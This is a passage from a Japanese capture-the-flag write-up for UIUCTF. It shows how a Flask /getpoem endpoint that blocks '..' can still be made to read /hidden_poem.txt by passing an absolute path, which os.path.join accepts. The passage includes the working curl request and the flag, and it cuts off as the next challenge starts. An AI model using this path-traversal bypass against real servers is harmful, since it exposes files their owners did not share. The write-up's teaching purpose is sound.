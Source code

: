 これは Flask のコードの一部でしょう。`/getpoem` という、GET パラメータで与えたファイルを開くエンドポイントの処理が書かれています。質問文を見るに、このエンドポイントに存在する脆弱性を使ってルートディレクトリの `hidden_poem.txt` を読めばよいのでしょう。

`..` が GET パラメータに入っていないかチェックされており、パストラバーサルはできなさそうに見えますが、もし `/hoge` のように `/` から始まるファイル名が与えられた場合にはどうでしょうか。検証してみましょう。

```
$ python3
Python 3.6.9 (default, Apr 18 2020, 01:56:04) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> import os.path
>>> poemdir = os.path.join(os.getcwd(), 'poems')
>>> poemdir
'/tmp/tmpspace.QSS30SnupE/poems'
>>>
>>> os.path.join(poemdir, 'a.txt')
'/tmp/tmpspace.QSS30SnupE/poems/a.txt'
>>> os.path.join(poemdir, '/a.txt')
'/a.txt'
```

なるほど、`os.path.join` は `/` が連続で続くとルートディレクトリにまで遡るという挙動をするようです。これで `/hidden_poem.txt` が読めないか試してみましょう。

```
$ curl "https://(省略)/getpoem?name=/hidden_poem.txt"
uiuctf{str_join_is_weird_in_python_3}
```

フラグが得られました。

```
uiuctf{str_join_is_weird_in_python_3}
```

## [Web 100] Just a Normal CTF (113 solves)
> Do NOT use sensitive passwords on this site. You can use a fake email if you want, too.
> 
> (URL)
> 
> Author: tow_nater

与えられた URL にアクセスすると、以下のように [CTFd](https://github.com/CTFd/CTFd) を使った CTF プラットフォームが表示されました。

